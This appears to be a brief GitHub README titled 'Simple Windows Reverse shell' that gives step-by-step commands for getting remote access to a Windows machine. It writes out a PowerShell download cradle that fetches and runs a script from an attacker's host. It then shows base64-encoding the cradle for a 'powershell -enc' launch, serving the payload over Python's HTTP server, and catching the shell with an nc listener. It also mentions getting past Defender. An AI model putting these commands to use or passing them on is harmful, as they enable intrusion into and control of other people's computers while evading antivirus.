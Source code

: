 # Simple Windows Reverse shell 
If this not working try the another one that is blocked by defender...

```language
nano touch.ps1

nano cradle

cradle content:-

====>  IEX(New-Object Net.WebClient).downloadString("http://attacker_ip:8000/touch.ps1")

cat cradle | iconv -t utf-16le | base64 -w0; echo

python3 -m http.server 8000

rlwrap nc -lvnp 9001

powershell -enc <encoded_code>
```
